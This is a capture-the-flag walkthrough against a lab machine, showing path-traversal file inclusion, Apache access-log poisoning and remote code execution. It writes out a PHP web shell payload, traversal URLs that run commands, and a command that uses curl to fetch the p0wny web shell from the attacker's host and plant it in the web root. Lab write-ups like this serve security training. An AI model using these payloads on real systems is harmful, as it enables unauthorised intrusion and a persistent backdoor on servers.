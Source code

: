 ![image](https://user-images.githubusercontent.com/53917092/97312250-08d5bc80-1844-11eb-8842-4f4f5e3e7042.png)

now if we inject php code into the log, it will be executed, with that we get a RCE

to do this I will use a proxy called burpsuit, to intercept the connection and inject code replacing the user agent

writing a shell 

> <?php system($_GET['cmd']) ?>

![image](https://user-images.githubusercontent.com/53917092/97314326-5bb07380-1846-11eb-9c14-172d88b5a7f6.png)

refreshing and viewing the source code :

![image](https://user-images.githubusercontent.com/53917092/97314572-9d411e80-1846-11eb-81ae-e0a9c8ad26dc.png)

it works!

now we can run commands in URL using &cmd=

> view-source:http://<BOX IP>/?view=cat/../../../../../../../../var/log/apache2/access.log&ext=&cmd=ls

![image](https://user-images.githubusercontent.com/53917092/97314809-d6798e80-1846-11eb-8232-7bf774b7bf2b.png)

### First flag

> view-source:http://<BOX IP>/?view=cat/../../../../../../../../var/log/apache2/access.log&ext=&cmd=cat+flag.php

![image](https://user-images.githubusercontent.com/53917092/97315020-0759c380-1847-11eb-990b-3c14c1637dfd.png)

## Web Shell

to see what we can use to get a web shell, we can list the machine's binaries

>view-source:http://<BOX IP>/?view=cat/../../../../../../../../var/log/apache2/access.log&ext=&cmd=ls+/usr/bin

![image](https://user-images.githubusercontent.com/53917092/97315473-8818bf80-1847-11eb-920a-cfd5a6c87536.png)

i will use curl to get a shell from my machine

in our machine:

installing the powny shell

> wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php -O powny.php

> sudo python3 -m http.server 80


now I will download the file and put it in /var/www/html

in box machine (RCE)

>view-source:http://<BOX IP>/?view=cat/../../../../../../../../var/log/apache2/access.log&ext=&cmd=curl <YOUR IP>/powny.php -o /var/www/html/powny.php
